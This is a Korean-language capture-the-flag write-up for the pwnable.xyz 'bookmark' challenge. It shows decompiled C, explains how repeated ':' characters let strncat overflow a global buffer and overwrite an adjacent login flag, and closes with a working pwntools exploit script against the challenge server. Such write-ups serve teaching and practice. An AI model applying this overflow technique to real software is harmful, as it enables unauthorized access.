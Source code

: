 ```yaml
---
title: "[pwnable.xyz]bookmark"
date: 2020-1-31
tags: [pwnable.xyz]
categories: [pwnable.xyz]
---
```


랭킹 1페이지 찍엇당..

우선 바이너리를 보호기법 다 걸려있다.

```
[*] '/vagrant/ctfs/challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

메인함수 처음 시작에 `qword_202300` 라는 전역변수에 랜덤값을 넣어준다.

```c
int init_login()
{
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
    exit(1);
  read(fd, &qword_202300, 8uLL);
  return close(fd);
}
```

1번 메뉴에서는 랜덤값을 저장한 변수와 입력한 값을 비교해서 `dword_202308` 변수에 1을 넣어주는데 이를 통해 4번 메뉴에서 win함수를 호출시킬 수 있다. 아마 이 문제의 핵심은 `qword_202300` 를 알아내거나 `dword_202308` 를 0이 아닌 아무 값으로 덮어주면 되는 것이다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 savedregs; // [rsp+10h] [rbp+0h]

  setup();
  init_login();
  puts("Web bookmarks.");
  while ( 1 )
  {
    print_menu();
    read_long();
    switch ( &savedregs )
    {
      case 0u:
        return 0;
      case 1u:
        printf("Password: ", argv);
        if ( qword_202300 == read_long() )
          dword_202308 = 1;
        break;
      case 2u:
        create_url();
        break;
      case 3u:
        argv = bm;
        printf("url: %s\n", bm);
        break;
      case 4u:
        if ( dword_202308 )
        {
          puts("Not Implemented.");
          puts("But here is a reward.");
          win();
        }
        break;
      default:
        puts("Invalid");
        break;
    }
  }
}
```

여기서 bm이라는 전역변수에 값을 써줄 수 있는 곳이다.

```c
int create_url()
{
  void *buf; // ST18_8
  signed int v2; // [rsp+Ch] [rbp-14h]
  char *v3; // [rsp+10h] [rbp-10h]

  printf("Secure or insecure: ");
  read(0, bm, 9uLL);
  if ( strncmp(bm, "http", 4uLL) )
    return puts("Not a valid URL.");
  if ( byte_202204 == 's' )
    v3 = &unk_202205;
  else
    v3 = &byte_202204;
  while ( *v3 == ':' || *v3 == '/' )
    ++v3;
  *v3 = 0;
  printf("Size of url: ", "http");
  v2 = read_long();
  if ( v2 < 0 || v2 > 127 )
    return puts("Too large.");
  buf = malloc(v2);
  read(0, buf, v2);
  return strncat(bm, buf, 0x100uLL);
}
```

`create_url` 함수에서 로직 버그가 터진다. 만약 여기 bm에 strncat으로 이어붙이는데 계속 이어붙일 수 잇다면 bm과 `dword_202308` 의 거리는 264이기 때문에 덮을 수 있을거다.

```
bm = 0x0000000000202200
byte_202204 = 0x0000000000202204
unk_202205 = 0x0000000000202205
qword_202300 = 0x0000000000202300
dword_202308 0x0000000000202308
```

여기서 취약점은 *v3가 ':' 이거나 '/' 이면 ++v3; 해주기 때문에 취약점이 발생한다. 그로 인해 ':'나 '/'을 계속 넣어주면 `dword_202308` 변수를 덮을 수 있다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30021)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

def login(passwd):
	sla('>','1')
	sa(':',passwd)

def create_url(url,size,data):
	sla('>','2')
	sa(':',url)
	sa(':',str(size))
	p.send(data)

def print_url():
	sla('>','3')

def save_url(): # win()
	sla('>','4')

def quit():
	sla('>','0')

create_url('https',127,':'*127)
create_url('https',127,':'*127)
create_url('https',127,':'*127)
#login(str(0x3a3a3a3a3a3a3a3a))
save_url()

p.interactive()
```